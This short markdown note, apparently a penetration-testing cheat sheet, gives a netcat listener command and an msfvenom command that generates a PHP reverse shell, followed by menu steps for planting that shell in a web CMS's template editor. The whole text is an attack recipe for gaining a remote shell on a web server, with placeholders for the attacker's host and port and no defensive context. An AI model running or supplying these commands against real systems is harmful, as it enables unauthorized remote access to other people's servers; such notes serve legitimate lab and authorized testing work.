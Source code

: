 ### Start listener
```
nc -lvp <lport>
```

### Create php reverse shell
```
msfvenom -p php/reverse_php lhost=<lhost> lport=<lport> -f raw
Extensions > Templates > Choose a template > Choose php file > insert php reverse shell
```

